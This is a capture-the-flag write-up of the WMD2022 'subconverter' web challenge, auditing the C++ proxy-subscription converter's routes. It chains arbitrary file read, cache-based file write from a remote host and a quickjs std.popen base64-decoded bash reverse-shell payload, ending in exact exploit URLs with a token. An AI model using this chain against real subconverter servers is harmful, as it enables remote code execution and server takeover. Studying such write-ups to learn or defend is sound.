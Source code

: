 ```yaml
---
layout: post
author: L3moon龙
tags: [Web, WMD2022]
---
```

# Web (subconverter) Write Up by @L3mon 

The title gives an `open source proxy subscription converter`: [https://github.com/tindy2013/subconverter]
it is a C++ project    

To get the source code, first look for the route and check the authentication logic  

```c++
/*
webServer.append_response("GET", "/", "text/plain", [](RESPONSE_CALLBACK_ARGS) -> std::string
{
return "subconverter " VERSION " backend\n";
});
*/

webServer.append_response("GET", "/version", "text/plain", [](RESPONSE_CALLBACK_ARGS) -> std::string
    {
        return "subconverter " VERSION " backend\n";
    });

webServer.append_response("GET", "/refreshrules", "text/plain", [](RESPONSE_CALLBACK_ARGS) -> std::string
    {
        if(global.accessToken.size())
        {
            std::string token = getUrlArg(request.argument, "token");
            if(token != global.accessToken)
            {
                response.status_code = 403;
                return "Forbidden\n";
            }
        }
        refreshRulesets(global.customRulesets, global.rulesetsContent);
        return "done\n";
    });

webServer.append_response("GET", "/readconf", "text/plain", [](RESPONSE_CALLBACK_ARGS) -> std::string
    {
        if(global.accessToken.size())
        {
            std::string token = getUrlArg(request.argument, "token");
            if(token != global.accessToken)
            {
                response.status_code = 403;
                return "Forbidden\n";
            }
        }
        readConf();
        if(!global.updateRulesetOnRequest)
            refreshRulesets(global.customRulesets, global.rulesetsContent);
        return "done\n";
    });

webServer.append_response("POST", "/updateconf", "text/plain", [](RESPONSE_CALLBACK_ARGS) -> std::string
    {
        if(global.accessToken.size())
        {
            std::string token = getUrlArg(request.argument, "token");
            if(token != global.accessToken)
            {
                response.status_code = 403;
                return "Forbidden\n";
            }
        }
        std::string type = getUrlArg(request.argument, "type");
        if(type == "form")
            fileWrite(global.prefPath, getFormData(request.postdata), true);
        else if(type == "direct")
            fileWrite(global.prefPath, request.postdata, true);
        else
        {
            response.status_code = 501;
            return "Not Implemented\n";
        }

        readConf();
        if(!global.updateRulesetOnRequest)
            refreshRulesets(global.customRulesets, global.rulesetsContent);
        return "done\n";
    });

webServer.append_response("GET", "/flushcache", "text/plain", [](RESPONSE_CALLBACK_ARGS) -> std::string
    {
        if(getUrlArg(request.argument, "token") != global.accessToken)
        {
            response.status_code = 403;
            return "Forbidden";
        }
        flushCache();
        return "done";
    });

webServer.append_response("GET", "/sub", "text/plain;charset=utf-8", subconverter);

webServer.append_response("GET", "/sub2clashr", "text/plain;charset=utf-8", simpleToClashR);

webServer.append_response("GET", "/surge2clash", "text/plain;charset=utf-8", surgeConfToClash);

webServer.append_response("GET", "/getruleset", "text/plain;charset=utf-8", getRuleset);

webServer.append_response("GET", "/getprofile", "text/plain;charset=utf-8", getProfile);

webServer.append_response("GET", "/qx-script", "text/plain;charset=utf-8", getScript);

webServer.append_response("GET", "/qx-rewrite", "text/plain;charset=utf-8", getRewriteRemote);

webServer.append_response("GET", "/render", "text/plain;charset=utf-8", renderTemplate);

webServer.append_response("GET", "/convert", "text/plain;charset=utf-8", getConvertedRuleset);

if(!global.APIMode)
{
webServer.append_response("GET", "/get", "text/plain;charset=utf-8", [](RESPONSE_CALLBACK_ARGS) -> std::string
{
std::string url = urlDecode(getUrlArg(request.argument, "url"));
return webGet(url, "");
});

webServer.append_response("GET", "/getlocal", "text/plain;charset=utf-8", [](RESPONSE_CALLBACK_ARGS) -> std::string
{
return fileGet(urlDecode(getUrlArg(request.argument, "path")));
});
} 
```

obviously the token parameter is used for authentication of some routes Among them, the /version route can get the current version to visit It is found that the code given in the title is the f9713b4 branch version It is an unreleased latest version, it seems to be a 0day Re-pull the code to start auditing the latest version 

## How To Get RCE ? 

The project has a built-in script engine called quickjs :

Tracing the call found that the script engine is called when the profile is converted and authentication is required
The URL satisfies script: at the beginning to enter the branch
When reading the script, the fileGet function is used to read the file and only ordinary files can be read
Conditions for using this point: authentication + writing to a file

Continue to view other eval calls 
![image](https://cdn.nlark.com/yuque/0/2022/png/25577536/1661081022735-751a676a-6f50-4289-97e0-89e5b6ea489f.png#clientId=u53fbcb21-0ef7-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=534&id=u542126ba&margin=%5Bobject%20Object%5D&name=%E5%9B%BE%E7%89%87.png&originHeight=667&originWidth=1080&originalType=binary&ratio=1&rotation=0&showTitle=false&size=71524&status=done&style=none&taskId=u8394ba25-b5f5-4633-b229-e695f238f86&title=&width=864)

This script engine is also used in scheduled tasks
The difference here is that the fetchFile function is used here 
![image](https://cdn.nlark.com/yuque/0/2022/png/25577536/1661081233533-78e163d9-758a-4d65-9da0-53e99fb239c2.png#clientId=u53fbcb21-0ef7-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=716&id=uaafa1de0&margin=%5Bobject%20Object%5D&name=%E5%9B%BE%E7%89%87.png&originHeight=895&originWidth=1094&originalType=binary&ratio=1&rotation=0&showTitle=false&size=97150&status=done&style=none&taskId=uc1c16d7e-380d-4913-8196-5a573c22b0b)

The script path of the scheduled task uses the configuration items in the configuration file Conditions of use: 
modify the configuration file 

## File Write : 
The code below webGet caught my attention this function implements a simple cache function for caching remote subscriptions
The file was written during the caching process The request will be cached only when cache_ttl>0 After some searching, I found a cache route with added ttl

![image](https://cdn.nlark.com/yuque/0/2022/png/25577536/1661081707756-f8cd69b3-e5ee-4079-b3a5-c03ff58af883.png#clientId=uab9fe332-309a-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=129&id=uef3c2060&margin=%5Bobject%20Object%5D&name=%E5%9B%BE%E7%89%87.png&originHeight=161&originWidth=1168&originalType=binary&ratio=1&rotation=0&showTitle=false&size=23160&status=done&style=none&taskId=ua93f87c5-5c74-4355-914e-fd8a2de588a&title=&width=934.4)


so we need to Visit `/convert?url= http://1.1.1.1:8000/1.js` to initiate a cache request 

## arbitrary file read :
The convert route calls the fetchFile function to get the file content. This function can read local files.
After convert reads the file, it only performs a simple regular replacement on the file. Therefore, we can use this route to read any file. 

and we Successfully read the configuration file in the current directory (in fact, this project still has a bunch of files to read point x)

Authentication token received 

## Construct quickjs script :

Find the function list corresponding to the library introduced in the code in the official documentation Soon a common command execution function popen was found in the std library 
![image](https://cdn.nlark.com/yuque/0/2022/png/25577536/1661083415735-e4fc67a6-a02e-4103-9033-d63df0d3a8e7.png#clientId=uab9fe332-309a-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=613&id=u9a21dd19&margin=%5Bobject%20Object%5D&name=%E5%9B%BE%E7%89%87.png&originHeight=766&originWidth=1792&originalType=binary&ratio=1&rotation=0&showTitle=false&size=124373&status=done&style=none&taskId=u5e9c34f1-0560-4af6-afd8-e9766ea7552&title=&width=1433.6)

Construct a rebound shell directly 
```js
std.popen("bash -c 'echo payloadb64 |base64 -d|bash'", "r");
```

## RCE Chain :

1. Read Configuration File to get the authentication token 
2. cache the remote file to write the file using `/convert?url= http://1.1.1.1:8000/1.js`
3. Calculate the cache file name and enter the token to trigger the subscription conversion execution script
`/sub?token=K5unAFg0wPO1j&target=clash&url=script:cache/c290fb8309721db5f8622eb278635c1a`
4. get shell uwu 

![uwu](https://cdn.nlark.com/yuque/0/2022/png/25577536/1661083723485-882bdb34-42ea-419b-b2ce-e23bcca457d1.png#clientId=uab9fe332-309a-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=545&id=ub01e4e63&margin=%5Bobject%20Object%5D&name=%E5%9B%BE%E7%89%87.png&originHeight=681&originWidth=809&originalType=binary&ratio=1&rotation=0&showTitle=false&size=33074&status=done&style=none&taskId=u584032ce-1daf-4760-9b54-dc45f873f93&title=&width=647.2)

# Conclusion 

Read the documentation of the library used in the code, and then find the corresponding function to construct the script and always ask masters for advice. 

> with love by l3mon